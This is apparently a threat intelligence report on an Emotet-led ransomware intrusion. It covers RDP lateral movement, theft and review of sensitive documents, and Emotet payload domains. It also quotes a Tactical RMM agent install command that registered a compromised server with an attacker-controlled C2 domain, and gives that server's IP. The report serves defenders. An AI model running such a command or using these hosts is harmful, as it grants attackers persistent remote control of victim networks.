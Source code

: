 # Remote Desktop

Lastly, traces of RDP (Remote Desktop Protocol) connections were discovered on multiple compromised hosts utilized for lateral movement on the final day of the intrusion and during the ransomware deployment.

On the third day of the intrusion, after moving laterally, the threat actors began to review sensitive documents stored on network shares, including revenue, insurance, and password storage documents.

These documents were again reviewed by the threat actor on the final day of the intrusion. Later the threat actor viewed the stolen files off network, observed by triggered canary tokens, which revealed connections from an AWS EC2 instance.

# Emotet

The Emotet loader pulled the main second stage payload from the following domains:
- hxxps://descontador[.]com[.]br 
- hxxps://www.elaboro[.]pl 
- hxxps://el-energiaki[.]gr 
- hxxp://drechslerstammtisch[.]de 
- hxxp://dhnconstrucciones[.]com[.]ar 
- hxxp://dilsrl[.]com

The second stage loader had multiple IP addresses in its configuration to attempt connections to:

# Cobalt Strike

The following Cobalt Strike C2 servers were observed being used. Both HTTP and HTTPS were observed to be used.
The following are the Cobalt Strike configurations observed:


# Tactical RMM Agent

The threat actor dropped a Tactical RMM Agent on one of the servers as an alternative command and control avenue to access the network. During the installation of the software, the following command was observed:

"C:\Program Files\TacticalAgent\tacticalrmm.exe" -m install --api https://api.floppasoftware[.]com --client-id 1 --site-id 1 --agent-type server --auth REDACTED

This command reveals the floppasoftware.com domain used by the threat actor for the remote management of Tactical RMM Agent. This domain was registered very close to the timeline of this incident.

A domain registered to be used with Tactical RMM Agent will have both an api and mesh subdomain, in this case api.floppasoftware[.]com and mesh.floppasoftware[.]com . These were both hosted on the same server IP: 212.73.150.62.

In addition, during the execution of Tactical RMM Agent, the software will reach out to a centralized domain in order to retrieve the current public IP address in use:
